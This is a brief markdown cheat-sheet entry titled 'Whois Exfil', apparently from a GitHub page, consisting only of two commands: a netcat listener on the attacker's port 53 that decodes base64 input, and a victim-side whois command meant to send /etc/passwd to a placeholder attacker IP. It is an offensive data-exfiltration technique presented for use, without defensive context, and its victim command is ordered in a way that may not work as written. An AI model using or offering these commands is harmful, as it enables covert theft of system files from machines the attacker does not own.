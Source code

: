 # Whois Exfil

From attacker: 

```
nc -nvlp 53 | sed "s/ //g" | base64 -d
```

From victim:

```
whois -h <Attacker IP> -p 53 cat /etc/passwd | base64
```